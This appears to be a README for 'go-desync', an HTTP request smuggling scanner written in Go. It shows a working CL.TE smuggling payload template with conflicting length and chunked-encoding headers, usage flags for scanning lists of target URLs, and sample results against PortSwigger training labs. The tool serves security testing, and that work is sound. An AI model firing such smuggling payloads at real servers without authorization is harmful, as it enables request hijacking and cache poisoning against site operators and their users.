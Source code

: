 # go-desync
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Example template:
```
Match: Unrecognized method GPOST
Request: |+
  POST {{.Path}} HTTP/1.1
  Host: {{.Host}}
  Content-Type: application/x-www-form-urlencoded
  Content-length: 4
  Transfer-Encoding: chunked
  Transfer-encoding: cow

  5c
  GPOST / HTTP/1.1
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 15

  x=1
  0


```

Usage:
```
$ go-desync -h
Usage of ./smuggler:
  -header string
    	Custom header to add to requests, example: '-header "User-Agent: garlic0x1"'
  -proxy string
    	Set the environment proxy, for example: http://example.com:8080
  -templates string
    	Directory of YAML templates to test (default "templates/")
  -threads int
    	Number of concurrent targets to test (default 5)
  -timeout int
    	Timeout (default 10)
  -tries int
    	Number of requests to send to test each template (default 5)
  -u string
    	Target URL
  -urls string
    	List of URLs
```

Example test on Portswigger labs:
```
$ go-desync -urls targets.test 
https://ace01f7b1ead19f2c0064c7300d500e6.web-security-academy.net/ is vulnerable, payload: templates/clte.yaml
https://ace01f7b1ead19f2c0064c7300d500e6.web-security-academy.net/ is vulnerable, payload: templates/diffclte.yaml
https://accb1f2b1ff036edc0495a6d00cf00be.web-security-academy.net/ is vulnerable, payload: templates/obfuscateTE.yaml
https://accb1f2b1ff036edc0495a6d00cf00be.web-security-academy.net/ is vulnerable, payload: templates/tecl.yaml
```
